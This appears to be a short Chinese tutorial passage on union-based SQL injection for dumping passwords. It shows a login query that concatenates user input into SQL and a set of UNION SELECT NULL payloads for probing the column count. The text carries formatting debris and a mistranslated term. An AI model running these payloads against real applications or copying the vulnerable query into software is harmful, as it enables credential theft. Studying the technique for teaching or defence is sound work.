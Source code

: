 *****使用基于联盟的 SQL 注入可以转储密码。要使基于工会的注入发挥作用，必须满足两个关键要求:*****

*   *****注入查询中的列数必须与原始查询中的列数相同*****
*   *****每列的数据类型必须与相应的类型相匹配*****

*****当登录到应用程序时，它执行下面的查询。从 SQL 语句中，我们可以看到它正在检索两列；id 和用户名。*****

```
***SELECT **id**, username FROM users WHERE username = '" + username + "' AND password = '" + password + "'***
```

*****一个一个地试试这个*****

```
***1' UNION SELECT NULL-- -1' UNION SELECT NULL, NULL-- -1' UNION SELECT NULL, NULL, NULL-- -***
```
